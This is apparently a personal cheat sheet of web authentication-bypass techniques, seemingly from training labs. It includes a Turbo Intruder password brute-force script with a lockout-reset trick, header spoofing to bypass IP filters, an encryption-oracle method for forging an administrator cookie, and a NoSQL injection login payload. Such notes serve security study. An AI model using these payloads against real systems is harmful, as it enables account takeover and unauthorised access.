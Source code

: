 [#](#) Authentication

Bypass IP Filtering:

    X-Forwarded-For: foo
    
    Reset lock counts upon successful?

    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

        for word in open('C:\Users\srbx7\Desktop\lists\password.txt'):
            engine.queue(target.req, ["wiener","peter"])
            engine.queue(target.req, ["carlos",word.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status == 302:
            table.add(req)
    ```
Time based enumeration (add long password ;) )

Can't bypass IP Filtering?

    Is there an admin interface /admin
    
       Host: localhost
       
       TRACE /admin # And find Custom header
       X-Custom-Ip-Authorization: 127.0.0.1
       
    Fuzz no matter what, and grep negative for error?

Change Password:

    - POST Change Username?
    - POST username=wiener&current=peter&new_1=AAAA&new_2=BBBB
        - > New Passwords do not match > Bruteforce

Drop request:

    - Is there a unusual request that you can simply drop (instead of changing params) to not receive the new state (set-cookie)
        - POST /login -> GET /role-selector (DROP)

Stay-logged-in: 

    - Can you decode the cookie
    - Can you decrypt the cookie:
        - Encryption Oracle -> POST /foo -> Set-Cookie: Notification=ENCRYPTED -> <html><header>My Super Notification: controlled_user_data</header><body>...
            - Can you put the stay-logged-in cookie instead of controlled_user_data
            - Create Encrypt / Decrypt Tabs
            - Need to remove prefix
            - Encrypted Data -> Decoder -> URL Decode -> Base64 -> Delete Bytes len("prefix")
            - 16-bytes blocks error? -> how much to add so that we can safely remove the first block? -> 
            ```
            # When sending to encrypt, the backend add "prefix" and then encrypt....
            ## prefixXXXXXXXXXX
            block_1 = "X" * (16 - len("prefix")) # "prefix" will be automatically added
            block_2 = "administrator:timestamp"
            encrypt = block_1 + block_2```
            # Encrypt and then remove first 16-bytes (hex in decoder and encode back)
            print(encrypt)
            ```

NoSQL:

* `{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
